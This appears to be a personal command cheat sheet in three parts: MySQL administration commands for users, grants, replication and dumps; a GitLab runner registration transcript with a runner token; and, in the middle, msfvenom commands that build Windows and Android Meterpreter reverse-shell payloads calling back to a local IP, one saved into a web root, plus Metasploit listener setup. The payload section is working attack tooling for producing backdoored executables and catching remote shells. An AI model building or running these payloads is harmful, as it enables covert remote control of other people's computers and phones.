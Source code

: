 drop user root@127.0.01;
drop user ''@oweb;

grant all privileges on [database name].* to user@'ip' identified by 'pw';

grant all privileges on [database name].tablename to user@'ip' identified by 'pw';


flush privileges;

stop slave;
reset master;


show master status;
show slave status\G;

show databases;
use mysql;
select * from user;


show variables;

mysql -h ip  (mysql´ú¸Õ³s½u¨ì»·ºÝ¥D¾÷)

mysqldump tablename -u root -p > file.sql  (dump)

create databases tablename;
mysql databasename < file.sql   (restore)

drop databases tablename;

------------------------------------------

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=172.20.10.4 -b "\x00" -f exe -o Meterpreter.exe
msfvenom -p android/meterpreter/reverse_tcp LHOST=172.20.10.4 LPORT=4444 -f raw -o /var/www/html/android.apk

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.20.10.4
set ExitOnSession false
exploit -j -z

use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 172.20.10.4
set ExitOnSession false
exploit -j -z

------------------------------------------

[root@gitlab ~]# gitlab-runner register
Running in system-mode.                            
                                                   
Please enter the gitlab-ci coordinator URL (e.g. https://gitlab.com/):
http://gitlab.example.com
Please enter the gitlab-ci token for this runner:
2VXy8mNqJoerWw9yQy15
Please enter the gitlab-ci description for this runner:
[gitlab]: eric-ci-test
Please enter the gitlab-ci tags for this runner (comma separated):
eric-ci-test
Whether to run untagged builds [true/false]:
[false]: true
Whether to lock the Runner to current project [true/false]:
[true]: true
Registering runner... succeeded                     runner=2VXy8mNq
Please enter the executor: docker, docker-ssh, parallels, docker+machine, docker-ssh+machine, shell, ssh, virtualbox, kubernetes:
docker
Please enter the default Docker image (e.g. ruby:2.1):
centos:7